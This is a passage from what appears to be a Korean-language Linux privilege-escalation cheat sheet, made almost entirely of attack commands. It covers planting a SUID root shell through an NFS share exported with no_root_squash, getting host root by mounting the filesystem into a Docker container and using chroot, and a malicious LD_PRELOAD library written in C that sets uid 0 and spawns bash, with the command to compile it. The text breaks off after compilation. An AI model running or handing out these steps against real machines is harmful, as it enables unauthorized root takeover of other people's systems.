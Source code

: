 ### 🌐 NFS 설정 오류

```bash
# 1. NFS exports 확인
cat /etc/exports
showmount -e localhost

# 2. no_root_squash 옵션 확인
cat /etc/exports | grep "no_root_squash"

# 3. NFS 마운트 (공격자 머신에서)
mkdir /tmp/nfs_mount
mount -t nfs victim-ip:/exported/path /tmp/nfs_mount

# 4. SUID 바이너리 생성 (공격자 머신에서 root로)
cp /bin/bash /tmp/nfs_mount/rootbash
chmod +s /tmp/nfs_mount/rootbash

# 5. 타겟에서 실행
/exported/path/rootbash -p
```

### 🐋 Docker 그룹 악용

```bash
# 1. Docker 그룹 확인
groups | grep docker
id | grep docker

# 2. Docker 컨테이너 실행으로 root 권한 획득
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# 3. Docker를 통한 호스트 파일시스템 접근
docker run -v /etc:/mnt/etc --rm -it alpine sh
# 컨테이너 내에서 /mnt/etc/passwd 수정 가능

# 4. Docker 이미지를 통한 권한상승
docker run --rm -v /:/mnt -it ubuntu bash
chroot /mnt bash
```

### 🔧 LD_PRELOAD 악용

```bash
# 1. LD_PRELOAD 설정 가능 여부 확인
sudo -l | grep LD_PRELOAD
env | grep LD_PRELOAD

# 2. 악성 라이브러리 생성
cat > /tmp/preload.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF

# 3. 컴파일
gcc -fPIC -shared -o /tmp/preload.so /tmp/preload.c -nostartfiles

```
